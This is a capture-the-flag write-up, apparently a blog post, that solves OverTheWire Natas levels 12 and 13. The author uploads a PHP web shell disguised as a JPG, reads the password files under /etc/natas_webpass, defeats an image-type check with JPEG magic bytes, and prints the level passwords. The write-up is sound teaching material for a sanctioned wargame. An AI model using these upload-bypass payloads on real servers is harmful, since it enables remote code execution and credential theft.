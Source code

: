 ```yaml
---
layout: post
title: "OverTheWire: Natas 12"
date: 2016-11-02 12:00:00
share: true
comments: true
tags: overthewire natas
---
```


## Natas 12

In this level you're able to upload a JPG file with max size 1KB. Let's check the sourcecode.

```php
<?   
  
function genRandomString() {  
    $length = 10;  
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";  
    $string = "";      
  
    for ($p = 0; $p < $length; $p++) {  
        $string .= $characters[mt_rand(0, strlen($characters)-1)];  
    }  
  
    return $string;  
}  
  
function makeRandomPath($dir, $ext) {  
    do {  
    $path = $dir."/".genRandomString().".".$ext;  
    } while(file_exists($path));  
    return $path;  
}  
  
function makeRandomPathFromFilename($dir, $fn) {  
    $ext = pathinfo($fn, PATHINFO_EXTENSION);  
    return makeRandomPath($dir, $ext);  
}  
  
if(array_key_exists("filename", $_POST)) {  
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);  
  
  
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {  
        echo "File is too big";  
    } else {  
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {  
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";  
        } else{  
            echo "There was an error uploading the file, please try again!";  
        }  
    }  
} else {  
?>  
  
<form enctype="multipart/form-data" action="index.php" method="POST">  
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
Choose a JPEG to upload (max 1KB):<br/>  
<input name="uploadedfile" type="file" /><br />  
<input type="submit" value="Upload File" />  
</form>  
<? } ?>   
```

Following the logical code flow:  

  * *Line 43*: An upload form is generated, it contains 4 input tags:
    1. `MAX_FILE_SIZE`: Kind of [useless ](http://stackoverflow.com/questions/1381364/max-file-size-in-php-whats-the-point)since it's not really supported. 
    2. `filename`: This an autogenerated 10-characters long string with _hardcoded _.jpg extension. 
    3. `uploadfile`: The file you'll be uploading
    4. Submit button.

  * *Line 27* : If the POST request contains `filename`  (submitted through the upload form), it generated a NEW random string to use as file name, *yet the existing extension is kept*. A couple of checks are done to verify it's a valid JPG. First, it checks if the file size is less than 1KB. If it's bigger than 1KB, an error message is displayed.
  * Otherwise, the file is uploaded and stored under upload directory with format **randomstring.ext**, where ext is the extension provided in input tag (filename)

If we change the extension of filename tag from JPG to PHP, we may be able to
execute code remotely.  
  

#### 1\. Create a fake JPG containing php code

We'll be using [`system()`](http://php.net/manual/en/function.system.php) to read our password.  
  
```console
root@kali: ~/Desktop# echo "<?php echo system(\"cat /etc/natas_webpass/natas13\"); ?>" > natas12.jpg  
root@kali: ~/Desktop# cat natas12.jpg  
<?php echo system("cat /etc/natas_webpass/natas13"); ?>"  
``` 

#### 2\. Upload JPG and get password

```html
<input name="filename" value="o0xn5q93si.jpg" type="hidden">  
```
is changed to  
```html
<input name="filename" value="o0xn5q93si.php" type="hidden">  
```    
  
You don't need to change the entire file name, since it won't be used anyway, what matters is changing JPG to PHP, this way it will be reused in `makeRandomPathFromFilename` function.  
  
![10]({{ site.baseurl}}/images/10.png)
  
The link generated does contain `.php` extension! Open it and you'll find your password.  
  
*Password:* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

_________________________________  

## Natas 13

You'll notice that this challenge is very similar to Natas 12, the only added verification is this condition:  
  
```php
<?php  
...  
  
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
...  
  
?>  
```    

  
This will make our fake JPG fail to be validated as valid. If you run file on it, it's also not validated as JPEG!  
  
```console
root@kali: ~/Desktop# file natas12.jpg  
natas12.jpp: PHP script, ASCII text  
root@kali: ~/Desktop#   
```
  
In this case, we need to know how files' types are recognized, after some research you'll stumble upon something called [file signatures/magicnumbers.](https://en.wikipedia.org/wiki/List_of_file_signatures). A JPG  file contains the following HEX signature: `FF D8 FF DB`.
  
_____________________________________

### 1\. Generate a fake JPG with valid signature

Easiest approach is create a new file with jpg extension then use hexeditor to add the JPG signature.

```console
root@kali:~/Desktop# echo "<?php echo system("/etc/natas_webpass/natas14"); ?>" > file.jpg  
root@kali:~/Desktop# hexeditor -b file.jpg  
```

Next, we start hexeditor in buffer mode to allow us to insert null bytes, we need 4 of these. CTRL+A will do. 

![11]({{ site.baseurl}}/images/11.png)

![12]({{ site.baseurl}}/images/12.png)

![13]({{ site.baseurl}}/images/13.png)

Hit CTRL+X to save and exit

_____________________________________

### 2\. Upload JPG and get password

This is the same step as earlier.

**Password:** `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`